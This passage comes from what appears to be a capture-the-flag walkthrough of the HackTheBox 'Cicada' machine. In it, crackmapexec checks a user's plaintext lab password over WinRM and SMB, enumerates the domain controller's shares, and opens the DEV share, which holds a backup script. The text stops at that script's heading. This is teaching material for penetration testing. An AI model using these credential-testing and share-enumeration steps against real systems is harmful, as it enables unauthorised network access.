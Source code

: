<br />

```bash
❯ cme winrm cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
```

<br />

If we enumerate the smb shared resources for this user, we have read permissions in one new resource `(DEV)`:

<br />

```bash
❯ cme smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

<br />

We can access the `DEV` share with `smbclient`:

<br />

```bash
❯ smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

		4168447 blocks of size 4096. 477732 blocks available
```

<br />

### Backup_script.ps1:
